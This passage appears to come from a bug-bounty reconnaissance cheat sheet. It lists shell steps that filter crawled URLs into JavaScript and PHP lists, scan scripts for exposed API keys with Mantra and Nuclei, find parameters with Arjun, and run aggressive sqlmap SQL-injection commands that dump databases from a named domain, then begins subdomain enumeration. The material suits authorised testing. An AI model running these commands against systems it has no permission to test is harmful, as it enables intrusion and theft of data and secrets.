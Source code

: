 ```sh
# Extract JavaScript files
cat allurls.txt | grep -E "\.js$" >> js.txt

# Extract PHP files
cat allurls.txt | grep -E "\.php$" >> php.txt
```

## **1️⃣2️⃣ Analyze JavaScript for API Keys & Secrets**

```sh
# Extract API keys with Mantra
cat js.txt | mantra

# Scan JavaScript exposure with Nuclei
nuclei -l js.txt -t /root/nuclei-templates/http/exposures/
```

## **1️⃣3️⃣ Extract Parameters from PHP Files Using Arjun**

```sh
arjun -i php.txt >> arjun.txt
```

## **1️⃣4️⃣ SQL Injection Testing**

```sh
# Identified parameter in target URL
sqlmap -u "https://mars.com/file.php?id=*" --risk 3 --level 5 --random-agent --banner --batch --dbs --ignore-code 403

# POST request example
sqlmap -u "https://mars.com" --data "id=*&name=*&x=*" --dbs --banner --batch
```

---

# 🌍 live hacking 4

## **1️⃣ Subdomain Enumeration**

```sh
# Save all subdomains
subfinder -d example.com -o subdomains.txt
```

## **2️⃣ Remove Duplicate Subdomains**

```sh
cat subdomains.txt | anew >> unique_subdomains.txt
rm subdomains.txt
```
